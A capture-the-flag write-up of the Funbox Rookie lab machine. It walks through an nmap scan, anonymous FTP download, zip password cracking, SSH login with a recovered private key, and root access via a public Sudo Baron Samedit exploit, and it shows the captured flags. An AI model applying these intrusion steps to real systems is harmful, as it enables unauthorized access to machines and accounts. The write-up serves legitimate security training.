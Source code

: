 ```yaml
---
title: Funbox Rookie
categories: [Proving Grounds Play, Funbox]
tags: [FTP, Public Exploit, Unzip, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:512/1*hN7YDho1p8S7uOdLjj-8Mw.png
  alt:  Funbox-Rookie Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [Funbox : Rookie](https://www.vulnhub.com/entry/funbox-rookie,520/)
<br>
Boot2Root ! This can be a real life scenario if rockies becomes admins. Easy going in round about 15 mins. Bit more, if you are find and stuck in the rabbit-hole first.
<br>
This VM is created/tested with Virtualbox. Maybe it works with vmware.
<br>
If you need hints, call me on twitter: @0815R2d2
<br>
Have fun...
<br>
This works better with VirtualBox rather than VMware.
{: .prompt-info }


### Let’s find the IP Address first >>

```bash
IP : 192.168.225.107
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie]
└─$ sudo nmap -sC -sV -T4 -oN Nmap_results.txt 192.168.225.107
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-08 15:37 IST
Nmap scan report for 192.168.225.107
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9:46:7d:fe:0c:4d:a9:7e:2d:77:74:0f:a2:51:72:51 (RSA)
|   256 15:00:46:67:80:9b:40:12:3a:0c:66:07:db:1d:18:47 (ECDSA)
|_  256 75:ba:66:95:bb:0f:16:de:7e:7e:a1:7b:27:3b:b0:58 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/logs/
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled.png)

Lets check `robots.txt` file →

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled%201.png)

## FTP Enumeration ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie]
└─$ ftp 192.168.225.107 21
Connected to 192.168.225.107.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.225.107]
Name (192.168.225.107:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.178 !
230-
230-The local time is: Sat Jul 08 10:10:10 2023
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||7526|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 ..
-rw-r--r--   1 ftp      ftp           153 Jul 25  2020 .@admins
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           114 Jul 25  2020 .@users
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete
ftp>
```
{: .nolineno}

Now I downloaded all the files into the attackers machine →

```bash
wget -r ftp://192.168.225.107
```
{: .nolineno}

Now lets dig into the files →

with the help of fcrackzip tool I cracked the zip passwords →

![Untitled](/Vulnhub-Files/img/Funbox-Rookie/Untitled%202.png)

```bash
PASSWORD FOUND!!!!: pw == iubire
```
{: .nolineno}

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie/192.168.225.107]
└─$ unzip tom.zip 
Archive:  tom.zip
[tom.zip] id_rsa password: 
  inflating: id_rsa
```
{: .nolineno}

## SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Funbox-Rookie/192.168.225.107]
└─$ ssh tom@192.168.225.107 -i id_rsa 
The authenticity of host '192.168.225.107 (192.168.225.107)' cant be established.
ED25519 key fingerprint is SHA256:ZBER3N78DusT56jsi/IGcAxcCB2W5CZWUJTbc3K4bZc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.225.107' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul  8 10:45:19 UTC 2023

  System load:  0.0               Processes:             164
  Usage of /:   75.8% of 4.37GB   Users logged in:       0
  Memory usage: 38%               IP address for ens256: 192.168.225.107
  Swap usage:   0%

30 packages can be updated.
0 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$
tom@funbox2:~$ cat local.txt
866bc12b3cc3f88f2bcfb8d091713b46
tom@funbox2:~$
```
{: .nolineno}

Now lets see the Sudo version →

```bash
tom@funbox2:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
tom@funbox2:~$
```
{: .nolineno}

Lets search an exploit for this Sudo version →

I got this exploit of [**CVE-2021-3156 (Sudo Baron Samedit)**](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py) and I used `exploit_nss.py` exploit **→**

```bash
tom@funbox2:/tmp$ nano exp.py
tom@funbox2:/tmp$ chmod +x exp.py
tom@funbox2:/tmp$ python3 exp.py
# whoami
root
# /bin/bash -i
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@funbox2:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(tom)
root@funbox2:/tmp# whoami
root
root@funbox2:/tmp# cd /root
root@funbox2:/root# ls -al
total 32
drwx------  4 root root 4096 Jul  9 09:51 .
drwxr-xr-x 24 root root 4096 Oct 14  2020 ..
-rw-------  1 root root    0 Oct 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Sep 15  2020 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 25  2020 .ssh
-rw-r--r--  1 root root   32 Oct 14  2020 flag.txt
-rw-------  1 root root   33 Jul  9 09:51 proof.txt
root@funbox2:/root# cat flag.txt 
Your flag is in another file...
root@funbox2:/root# cat proof.txt
7ca58542dc8a0d0181aaf812ae214c69
root@funbox2:/root#
```
{: .nolineno}

Now I am root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
